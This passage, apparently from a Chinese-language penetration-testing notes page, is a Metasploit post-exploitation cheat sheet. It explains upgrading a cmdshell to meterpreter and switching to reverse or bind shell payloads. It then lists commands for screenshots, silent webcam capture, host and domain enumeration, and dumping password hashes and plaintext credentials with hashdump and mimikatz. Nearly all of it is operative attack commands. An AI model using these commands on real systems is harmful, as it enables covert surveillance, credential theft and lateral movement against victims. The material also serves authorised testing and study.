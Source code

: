 **cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要.`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

**注意事项**

如果 meterpreter session 创建成功了,但很快就断连,此时应该修改使用的 payload,优先改成 generic/shell_reverse_tcp 等

如果还不成功,切换回连端口或者改成 bind shell 试试

---

### 信息收集

**截屏**
```bash
use espia
screenshot
screengrab
```

**摄像头**
```bash
webcam_snap -i 1 -v fales                               # 不开闪光灯拍照
```

**环境检测**
```bash
run post/windows/gather/checkvm                         # 是否虚拟机
run post/linux/gather/checkvm                           # 是否虚拟机

getuid                                                  # 查看当前用户

run post/windows/gather/enum_applications               # 获取目标主机安装软件信息;
run post/windows/gather/enum_patches                    # 查看目标主机的补丁信息;
run post/windows/gather/enum_domain                     # 查找目标主机域控.
run post/windows/gather/enum_logged_on_users            # 列举当前登陆过主机的用户;
run post/windows/gather/credentials/windows_autologin   # 抓取自动登陆的用户名和密码;

run post/windows/gather/forensics/enum_drives           # 查看分区
run post/windows/gather/enum_applications               # 获取安装软件信息
run post/windows/gather/dumplinks                       # 获取最近的文件操作
run post/windows/gather/enum_ie                         # 获取 IE 缓存
run post/windows/gather/enum_chrome                     # 获取 Chrome 缓存
run post/windows/gather/enum_patches                    # 补丁信息
run post/windows/gather/enum_domain                     # 查找域控
```

**抓取密码**
```bash
run hashdump                        # 获取用户密码 hash 值
load mimikatz                       # 加载 mimikatz,用于抓取密码,不限于明文密码和 hash 值;
msv                                 # 获取的是 hash 值
ssp                                 # 获取的是明文信息
kerberos
wdigest                             # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务

或

use post/windows/gather/hashdump
set session 1
Exploit
```
